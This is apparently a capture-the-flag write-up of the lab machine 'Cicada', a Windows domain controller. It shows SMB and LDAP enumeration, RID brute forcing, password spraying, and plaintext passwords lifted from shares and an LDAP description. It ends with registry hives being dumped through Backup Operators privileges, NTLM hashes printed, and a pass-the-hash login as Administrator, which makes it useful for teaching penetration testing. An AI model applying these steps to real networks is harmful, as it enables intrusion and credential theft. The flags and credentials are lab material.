



Intro

[[windows]] [[NotAssumedBreach]] [[PrivGroupAbuse]]
Tags: #windows #NotAssumedBreach #PrivGroupAbuse
- rpcclient (RPC enumeration)
- nxc (LDAP, SMB enumeration, rid-brute-force, password spraying)
- reg.py (Remote registry manipulation tool through the MSRPC Interface)
- secretsdump (dumping registry hives)
Reconnaissance
Add target to /etc/hosts
Nmap scan
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2025-08-19 10:24 CDT
Nmap scan report for cicada.htb (10.129.180.83)
Host is up (0.076s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-08-19 22:25:14Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after: 2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after: 2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after: 2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after: 2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-08-19T22:25:59
|_ start_date: N/A
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 103.34 seconds
RPC enumeration
Anonymous
└──╼ [★]$ rpcclient -U "" -N cicada.htb
rpcclient $> enumdomains
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
was not successful
LDAP enumeration
dn:
namingcontexts: DC=cicada,DC=htb
namingcontexts: CN=Configuration,DC=cicada,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=cicada,DC=htb
namingcontexts: DC=DomainDnsZones,DC=cicada,DC=htb
namingcontexts: DC=ForestDnsZones,DC=cicada,DC=htb
ldapsearch -LLL -x -H ldap://cicada.htb -b "DC=cicada,DC=htb" "objectclass=user" | egrep -i ^samaccountname | awk -F ': ' '{print $2}' | tee users.txt
was not successful
SMB enumeration
Anonymous
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
DEV Disk
HR Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
or we could also run
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.129.180.83 445 CICADA-DC [+] cicada.htb\guest:
SMB 10.129.180.83 445 CICADA-DC [*] Enumerated shares
SMB 10.129.180.83 445 CICADA-DC Share Permissions Remark
SMB 10.129.180.83 445 CICADA-DC ----- ----------- ------
SMB 10.129.180.83 445 CICADA-DC ADMIN$ Remote Admin
SMB 10.129.180.83 445 CICADA-DC C$ Default share
SMB 10.129.180.83 445 CICADA-DC DEV
SMB 10.129.180.83 445 CICADA-DC HR READ
SMB 10.129.180.83 445 CICADA-DC IPC$ READ Remote IPC
SMB 10.129.180.83 445 CICADA-DC NETLOGON Logon server share
SMB 10.129.180.83 445 CICADA-DC SYSVOL Logon server share
Here, i see 2 shares as non default windows ones, the DEV and HR, lets navigate to them
no access here, lets try HR share:
smbclient //cicada.htb/HR
smb: \> ls
. D 0 Thu Mar 14 07:29:09 2024
.. D 0 Thu Mar 14 07:21:29 2024
Notice from HR.txt A 1266 Wed Aug 28 12:31:48 2024
smb: \> mget *
viewing the txt file, we are given a password:
though the txt file mentions username mentioned above, no username was found inside. Since we have now username and we know this password is a valid one, we can perform password spraying
Foothold
Gather valid users (via rid-brute-forcing)
Perform rid brute forcing:
Place them on a txt for our next steps:
nxc smb cicada.htb -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users.txt
The valid users gathered are:
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
Password spraying
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.129.180.83 445 CICADA-DC [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.180.83 445 CICADA-DC [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.180.83 445 CICADA-DC [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.180.83 445 CICADA-DC [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.180.83 445 CICADA-DC [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.180.83 445 CICADA-DC [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.180.83 445 CICADA-DC [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB 10.129.180.83 445 CICADA-DC [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.180.83 445 CICADA-DC [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
The password was correlated with michael.wrightson
Checking where we can login with michael.wrightson creds
Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM 10.129.180.83 5985 CICADA-DC [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM 10.129.180.83 5985 CICADA-DC [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.129.180.83 445 CICADA-DC [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
[*] Checking if ldap port 389 is open on cicada.htb...
[+] Port 389 open — checking ldap with netexec
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP 10.129.180.83 389 CICADA-DC [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on cicada.htb...
[-] Skipping wmi — port 135 is closed
[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed
It appears that we can login towards SMB and LDAP.
SMB enumeration as michael.wrightson
it seems that this user has the same access as the guest user (besides NETLOGON, SYSVOL which after inspection contained nothing valuable )
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.129.180.83 445 CICADA-DC [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB 10.129.180.83 445 CICADA-DC [*] Enumerated shares
SMB 10.129.180.83 445 CICADA-DC Share Permissions Remark
SMB 10.129.180.83 445 CICADA-DC ----- ----------- ------
SMB 10.129.180.83 445 CICADA-DC ADMIN$ Remote Admin
SMB 10.129.180.83 445 CICADA-DC C$ Default share
SMB 10.129.180.83 445 CICADA-DC DEV
SMB 10.129.180.83 445 CICADA-DC HR READ
SMB 10.129.180.83 445 CICADA-DC IPC$ READ Remote IPC
SMB 10.129.180.83 445 CICADA-DC NETLOGON READ Logon server share
SMB 10.129.180.83 445 CICADA-DC SYSVOL READ Logon server share
LDAP enumeration as michael.wrightson
Very interesting! some accounts have Description, and one of them contains a plaintext password inside for another user!
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP 10.129.180.83 389 CICADA-DC [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
LDAP 10.129.180.83 389 CICADA-DC [*] Total records returned: 8
LDAP 10.129.180.83 389 CICADA-DC -Username- -Last PW Set- -BadPW- -Description-
LDAP 10.129.180.83 389 CICADA-DC Administrator 2024-08-26 20:08:03 1 Built-in account for administering the computer/domain
LDAP 10.129.180.83 389 CICADA-DC Guest 2024-08-28 17:26:56 1 Built-in account for guest access to the computer/domain
LDAP 10.129.180.83 389 CICADA-DC krbtgt 2024-03-14 11:14:10 1 Key Distribution Center Service Account
LDAP 10.129.180.83 389 CICADA-DC john.smoulder 2024-03-14 12:17:29 1
LDAP 10.129.180.83 389 CICADA-DC sarah.dantelia 2024-03-14 12:17:29 1
LDAP 10.129.180.83 389 CICADA-DC michael.wrightson 2024-03-14 12:17:29 0
LDAP 10.129.180.83 389 CICADA-DC david.orelious 2024-03-14 12:17:29 1 Just in case I forget my password is aRt$Lp#7t*VQ!3
LDAP 10.129.180.83 389 CICADA-DC emily.oscars 2024-08-22 21:20:17 1
Creds obtained:
Lets see where this user can login:
Checking where we can login with michael.wrightson creds
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM 10.129.180.83 5985 CICADA-DC [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM 10.129.180.83 5985 CICADA-DC [-] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.129.180.83 445 CICADA-DC [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
[*] Checking if ldap port 389 is open on cicada.htb...
[+] Port 389 open — checking ldap with netexec
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP 10.129.180.83 389 CICADA-DC [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on cicada.htb...
[+] Port 135 open — checking wmi with netexec
RPC 10.129.180.83 135 CICADA-DC [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
RPC 10.129.180.83 135 CICADA-DC [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed
This user has access to SMB , LDAP , RPC , lets enumerate more:
SMB enumeration as david.orelious
hm this user can read the DEV share which we previously could not read:
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.129.180.83 445 CICADA-DC [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB 10.129.180.83 445 CICADA-DC [*] Enumerated shares
SMB 10.129.180.83 445 CICADA-DC Share Permissions Remark
SMB 10.129.180.83 445 CICADA-DC ----- ----------- ------
SMB 10.129.180.83 445 CICADA-DC ADMIN$ Remote Admin
SMB 10.129.180.83 445 CICADA-DC C$ Default share
SMB 10.129.180.83 445 CICADA-DC DEV READ
SMB 10.129.180.83 445 CICADA-DC HR READ
SMB 10.129.180.83 445 CICADA-DC IPC$ READ Remote IPC
SMB 10.129.180.83 445 CICADA-DC NETLOGON READ Logon server share
SMB 10.129.180.83 445 CICADA-DC SYSVOL READ Logon server share
Lets navigate to the DEV share via smvclient:
it has a powershell script inside, lets download and inspect it
smb: \> ls
. D 0 Thu Mar 14 07:31:39 2024
.. D 0 Thu Mar 14 07:21:29 2024
Backup_script.ps1 A 601 Wed Aug 28 12:28:22 2024
4168447 blocks of size 4096. 476884 blocks available
smb: \> get "Backup_script.ps1"
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
Backup_script.ps1:
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
perfect! we found creds for another user! creds obtained:
Checking where we can login with those creds
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM 10.129.180.83 5985 CICADA-DC [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM 10.129.180.83 5985 CICADA-DC [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB 10.129.180.83 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.129.180.83 445 CICADA-DC [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
[*] Checking if ldap port 389 is open on cicada.htb...
[-] Skipping ldap — port 389 is closed
[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed
[*] Checking if wmi port 135 is open on cicada.htb...
[+] Port 135 open — checking wmi with netexec
RPC 10.129.180.83 135 CICADA-DC [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
RPC 10.129.180.83 135 CICADA-DC [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed
[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed
[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed
[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed
[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed
nice, we can login to winrm with this user, lets login
Logging in as emily.oscars
grabbed user flag: f714f5fe3dc9c0cf4aae2d0cacaf9e03
proof:

Privesc
Group membership
We could launch Bloodhound, but lets inspect group membership from the inside first:
User name emily.oscars
Full Name Emily Oscars
Comment
User's comment
Country/region code 000 (System Default)
Account active Yes
Account expires Never
Password last set 8/22/2024 2:20:17 PM
Password expires Never
Password changeable 8/23/2024 2:20:17 PM
Password required Yes
User may change password Yes
Workstations allowed All
Logon script
User profile
Home directory
Last logon 8/19/2025 5:49:08 PM
Logon hours allowed All
Local Group Memberships *Backup Operators *Remote Management Use
Global Group memberships *Domain Users
The command completed successfully.
Interesting, this user is memberof Backup Operators , lets find a way to abuse that
Abusing Backup Operator’s privileges
Writing registry hives to temp folder
Online i found multiple ways to do this, i preferred the following way:
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies
[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to C:\windows\temp\\SAM.save
[*] Saved HKLM\SYSTEM to C:\windows\temp\\SYSTEM.save
[*] Saved HKLM\SECURITY to C:\windows\temp\\SECURITY.save
Download registry hives locally
Then navigate to the temp folder on winrm and download the 3 registry hives above:
*Evil-WinRM* PS C:\windows\temp> download SAM.save
Info: Downloading C:\windows\temp\SAM.save to SAM.save
Info: Download successful!
*Evil-WinRM* PS C:\windows\temp> download SYSTEM.save
Info: Downloading C:\windows\temp\SYSTEM.save to SYSTEM.save
Info: Download successful!
*Evil-WinRM* PS C:\windows\temp> download SECURITY.save
Info: Downloading C:\windows\temp\SECURITY.save to SECURITY.save
Info: Download successful!
Dumping the registry hives
No we can dump those hives locally
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
almost done, Administrator’s hash was found this way, lets login now
Logging in as Administrator via pass the hash
grabbed root flag: 129cafa76c0b2261dd4c88a55b46138a
proof:

Summary
Here is the list of the steps simplified, per phase, for future reference and for quick reading:
Reconnaissance
- nmap scan -> found multiple services to focus on, like
RPC,SMB,LDAP - RPC enumeration → nothing useful
- SMB enumeration revealed
sharecontaining a txt file, containing password without username
Foothold
- Password spraying was performed, since we did not know which username corresponds to it, it was successful and the related user was found (michael.wrightson)
- Correlated user creds with
SMBandLDAPservices - SMB enumeration → nothing useful
- LDAP enumeration → enumerated users, found plaintext creds on LDAP Description! (david.orelious)
- Correlated user creds with
SMB,LDAP,RPCservices - SMB enumeration revealed
sharecontaining a txt file, containing credentials for another user (emily.oscars) - Correlated user creds with
WINRMservice - logged in winrm as user emily.oscars
- grabbed user flag
Privesc
- Group membership of the user indicated backup privileges (Backup Operators group)
- Abused privileges via writing registry hives to temp folder, and downloading them locally
- Dumped the registry hives locally, revealing the
NTLMhash of Administrator - Logged in as administrator via the
NTLMhash - grabbed root flag
Sidenotes
All in all, this one had somewhat straightforward (extensive) enumeration to achieve foothold, while privesc was all about exploiting the backup related privileges the user had, as a member of Backup Operators group. Fun fact, this machine has the exact same privesc methodology as Blackfield (Windows, Hard).
The only part that was new to me, was one of the user’s creds that where found as plaintext on the LDAP Description